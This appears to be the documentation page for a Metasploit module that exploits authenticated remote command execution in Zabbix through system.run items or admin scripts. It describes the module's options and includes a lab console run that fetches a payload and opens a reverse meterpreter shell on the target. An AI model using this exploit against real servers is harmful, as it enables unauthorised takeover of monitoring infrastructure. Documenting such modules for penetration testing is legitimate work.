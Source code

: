 ## Vulnerable Application

### Description

Zabbix server allow remote command execution by two different way.

The first way happen with the directive `AllowKey=system.run[*]` [[1]](https://blog.zabbix.com/zabbix-remote-commands/7500/#system.run).

This directive is disabled by default, if an attacker already know Zabbix credentials 
and the directive is enabled, he can abuse this functionality to take control over the Zabbix server.

The second way is by creating a script 
[[2]](https://www.zabbix.com/documentation/devel/en/manual/web_interface/frontend_sections/administration/scripts) 
in Zabbix and use it on a host.

### Setup

An easy way to setup a Zabbix server is to download and run their [appliance](https://www.zabbix.com/download_appliance).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This uses a Linux dropper to execute code.

### 1

This executes a Unix command.

## Options

### TECHNIQUE

#### script
If this option is set, the exploit will try to use a script, in order to achieve RCE.

#### item
If this option is set, the exploit will try to use the key `system.run[*]` in an item, in order to achieve RCE, only works in Zabix >= 3.0.
This only work on a non default Zabbix server configuration, where 
the directive `AllowKey=system.run[*]` is enabled in the `zabbix-agentd.conf` file.

### TLS_PSK
Communication between an agent and the server can be encrypted with TLS using a PSK (pre-shared key).

If the server is configured to enforce that, you have to get the key from the web interface (browse inside a host 
and navigate to `Encryption` tab) and specify it with this option, otherwise RCE is not gonna happen.

### TLS_PSK_IDENTITY

This is also inside an host, in the `Encryption` tab.

## Scenarios

### Zabbix server from [VMWare](#setup).

```
msf > use exploit/multi/http/zabbix_script_exec
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(multi/http/zabbix_script_exec) > set RHOSTS 192.168.0.130
RHOSTS => 192.168.0.130
msf exploit(multi/http/zabbix_script_exec) > set USE_ITEM true
USE_ITEM => true
msf exploit(multi/http/zabbix_script_exec) > set LHOST eth0
LHOST => 192.168.0.129
msf exploit(multi/http/zabbix_script_exec) > run
[*] Started reverse TCP handler on 192.168.0.129:4444 
[+] Successfully logged in
[*] Getting a valid group id...
[*] Creating a host called kTsSUTGmgKCwcsbMjZ
[*] Using URL: http://0.0.0.0:8081/4J54NLVPQsj
[*] Local IP: http://127.0.0.1:8081/4J54NLVPQsj
[*] Creating an item called MkMczJNYyEoSBTwsBG
[*] Client 192.168.0.130 (curl/7.25.0 (i586-suse-linux-gnu) libcurl/7.25.0 OpenSSL/1.0.1c zlib/1.2.7 libidn/1.25 libssh2/1.4.0) requested /4J54NLVPQsj
[*] Sending payload to 192.168.0.130 (curl/7.25.0 (i586-suse-linux-gnu) libcurl/7.25.0 OpenSSL/1.0.1c zlib/1.2.7 libidn/1.25 libssh2/1.4.0)
[*] Sending stage (984904 bytes) to 192.168.0.130
[*] Meterpreter session 1 opened (192.168.0.129:4444 -> 192.168.0.130:33354 ) at 2022-01-08 01:20:47 +0000
[*] Server stopped.

meterpreter > getuid
Server username: zabbix
meterpreter > 
```

